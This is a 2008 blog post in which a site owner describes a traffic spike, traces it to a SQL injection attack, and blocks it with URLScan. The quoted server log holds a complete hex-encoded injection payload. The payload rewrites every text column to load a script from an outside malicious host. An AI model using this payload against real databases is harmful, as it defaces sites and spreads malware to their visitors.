 ```yaml
---
id: 301
title: 'Accessorize your Denial of Service or SQL Injection Attack'
date: '2008-08-11T08:43:35-04:00'
author: 'Rob Bazinet'
layout: post
guid: 'http://localhost/~rbazinet/?p=301'
permalink: /iis/accessorize-your-denial-of-service-or-sql-injection-attack/
categories:
    - IIS
---
```


 I was reading some posts on Twitter the past couple days and noticed some Tweets from [Phil Haack](http://twitter.com/haacked) and [Scott Hanselman](http://twitter.com/shanselman) regarding an attack on their web[![Hacked](https://accidentaltechnologist.com/files/media/image/WindowsLiveWriter/AccessorizeyourDenialofServiceorSQLInjec_9683/Hacked_thumb.jpg)](https://accidentaltechnologist.com/files/media/image/WindowsLiveWriter/AccessorizeyourDenialofServiceorSQLInjec_9683/Hacked_2.jpg) servers for their blogs which caused a large spike in traffic. They determined it was some type of [Distributed Denial of Service (DDOS) attack](http://en.wikipedia.org/wiki/Denial_of_service_attack). I decided to check out my own server which I host this site and to my surprise, the same thing had been happening to me all day with an increase in traffic 10x.

I reviewed my server logs and saw some really large QueryStrings being sent which looked like this:

> <font face="Courier New" size="1">2008-08-08 05:51:53 W3SVC2557 SV2419 74.86.230.234 GET /asp-net/feed/ ';DECLARE%20@S%20CHAR(4000);SET%20@S=CAST(0x4445434C415245204054207661726368617228323535292C40432076617263686172283430303029204445434C415245205461626C655F43757273   
> 6F7220435552534F5220464F522073656C65637420612E6E616D652C622E6E616D652066726F6D207379736F626A6563747320612C737973636F6C756   
> D6E73206220776865726520612E69643D622E696420616E6420612E78747970653D27752720616E642028622E78747970653D3939206F7220622E7874   
> 7970653D3335206F7220622E78747970653D323331206F7220622E78747970653D31363729204F50454E205461626C655F437572736F7220464554434   
> 8204E4558542046524F4D20205461626C655F437572736F7220494E544F2040542C4043205748494C4528404046455443485F5354415455533D302920   
> 424547494E20657865632827757064617465205B272B40542B275D20736574205B272B40432B275D3D5B272B40432B275D2B2727223E3C2F7469746C6   
> 53E3C736372697074207372633D22687474703A2F2F73646F2E313030306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D   
> 272720776865726520272B40432B27206E6F74206C696B6520272725223E3C2F7469746C653E3C736372697074207372633D22687474703A2F2F73646   
> F2E313030306D672E636E2F63737273732F772E6A73223E3C2F7363726970743E3C212D2D272727294645544348204E4558542046524F4D2020546162   
> 6C655F437572736F7220494E544F2040542C404320454E4420434C4F5345205461626C655F437572736F72204445414C4C4F43415445205461626C655   
> F437572736F72%20AS%20CHAR(4000));EXEC(@S); 80 - 69.180.0.90 HTTP/1.1 Mozilla/4.0+(compatible;+MSIE+6.0;+Windows+NT+5.1;+SV1;   
> +Zango+10.3.74.0) - - accidentaltechnologist.com 200 0 0 27171 1514 3328</font>

It appears this is more of a SQL Injection attack and not just simply a DDOS. You can see the EXEC(@S) where they are trying to execute some nasty SQL on my server. [Rick Strahl has also had some similar problems](http://www.west-wind.com/weblog/posts/447503.aspx) and he addresses the issue in IIS 7.0.

Not being what to do, I went to Twitter, pinged Scott to see what he did to stop the attack and he suggested [URLScan from Microsoft](http://technet.microsoft.com/en-us/security/cc242650.aspx). Of course, this is tool I used to use back in the day of supporting clients web servers to help ward off unfriendly visitors. I had forgotten all about this tool until Scott mentioned it.

I downloaded URLScan from Microsoft and promptly installed it on my web server and the DDOS attack stopped almost instantly. The current version of URLScan is 2.5 which says it only works on IIS 6.0, but a beta version of [URLScan 3.0](http://www.microsoft.com/downloads/details.aspx?familyid=EE41818F-3363-4E24-9940-321603531989&displaylang=en) is available for IIS 5.1, 6.0, and 7.0.

Thank you [Scott](http://www.hanselman.com/blog/) for the quick reply and suggestion to fix my problem.

<div class="wlWriterSmartContent" id="scid:0767317B-992E-4b12-91E0-4F059A8CECA8:c061bd53-e034-4a9a-bf2b-1578f591c863" style="padding-right: 0px; display: inline; padding-left: 0px; float: none; padding-bottom: 0px; margin: 0px; padding-top: 0px">Technorati Tags: [Hackers](http://technorati.com/tags/Hackers),[DDOS](http://technorati.com/tags/DDOS),[URLScan](http://technorati.com/tags/URLScan),[IIS](http://technorati.com/tags/IIS),[SQL Injection](http://technorati.com/tags/SQL%20Injection)</div>